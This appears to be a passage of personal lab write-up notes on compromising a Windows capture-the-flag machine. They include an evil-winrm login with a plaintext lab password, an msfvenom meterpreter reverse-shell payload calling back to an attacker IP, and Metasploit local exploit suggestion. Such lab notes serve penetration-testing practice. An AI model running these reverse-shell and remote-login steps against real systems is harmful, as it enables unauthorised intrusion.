 - Now that we have `fsmith`and `hsmith`credentials, we can use `evil-winrm`

# Evil-Winrm
---
- `evil-winrm -i 10.10.10.175  -u fsmith -p Thestrokes23`
	- ![[Pasted image 20250424211136.png]]

# Enumeration
---
- Get a `meterpreter shell`:
	- `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.14.25 lport=443 -f exe -o rev.exe`
	- Set same options on `msfconsole`and run
	- Upload `rev.exe`using `evil-winrm`upload and run it
	- ![[Pasted image 20250424213919.png]]
- Using `exploit_suggestor`:
	- `use post/multi/recon/local_exploit_suggester`
	- `set session 1`
	- `run`
	- ![[Pasted image 20250424214021.png]]
- **After searching the windows version, `CVE-2024-40449`** appeared repeatedly:
	- ![[Pasted image 20250424214105.png]]